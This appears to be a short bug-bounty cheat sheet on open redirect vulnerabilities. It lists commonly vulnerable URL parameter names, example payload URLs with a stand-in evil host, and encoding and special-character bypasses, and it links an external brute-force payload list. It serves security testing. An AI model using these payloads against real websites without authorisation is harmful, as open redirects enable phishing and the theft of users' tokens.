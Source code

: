 --- ---

<h2>Top Injections</h2>

Type of vulnerability
- Parameters Injection (directly after the parameter)
- Payload Injection (directly after the URL)
- Combination (Add payload after Parameters)

Type of parameter (List)
```Terminal
dest=      uri=     continue=  window=     redirect=     path=   url=       to= 
out=       view=    dir=       show=       navigation=   open=   file=     val= 
validate=  domain=  callback=  return=     page=         feed=   host= 
port=      next=    data=      reference=  site=         html=   returnurl=  ...
```

Parameters Vulnerability
```Terminal
https://website.com/vulnerable?url=POSSIBLY-VULNERABLE.com/EVIL-PATH
```

Encode URL
Double Encode URL
Use special characters (%E3%80%82%23 or 。# (Decoded))
	https://example.com/x.php?url=EVIL-URL。#WEBSITE-URL

Brute Force List and more special characters
	- https://github.com/ManShum812/VulnerabilityPayload/blob/main/openredirect.txt
	- Search for 301 when brute forcing  ---> Suggest to check them 1 by 1 (Some 200 response has worked before)
